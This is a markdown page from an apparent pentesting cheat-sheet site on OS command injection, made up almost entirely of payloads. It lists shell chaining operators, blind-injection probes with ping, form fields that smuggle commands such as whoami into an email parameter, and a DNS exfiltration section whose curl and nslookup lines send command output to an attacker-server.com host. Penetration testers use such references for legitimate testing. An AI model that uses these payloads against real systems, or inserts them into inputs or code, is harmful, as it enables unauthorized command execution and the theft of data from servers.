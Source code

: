 ```yaml
---
title: "Command Injection"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```


- Command Injection/Execution :
```sh
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful
0x0a or \n #Newline 

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

- Detecting blind OS command injection :
```sh
& ping -c 10 127.0.0.1 &
#Request Post :
name=dede&email=test%40gmail.com||+ping+-c+10+127.0.0.1+||&subject=dede&message=deeeeeeeeeeee
```

`Don't forget to try every possibilities !`

- Output redirection: 
```sh
name=test&email=||whoami>/var/www/images/output.txt||&subject=test&message=test
```

### RCE - Exfiltrating via DNS

```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
```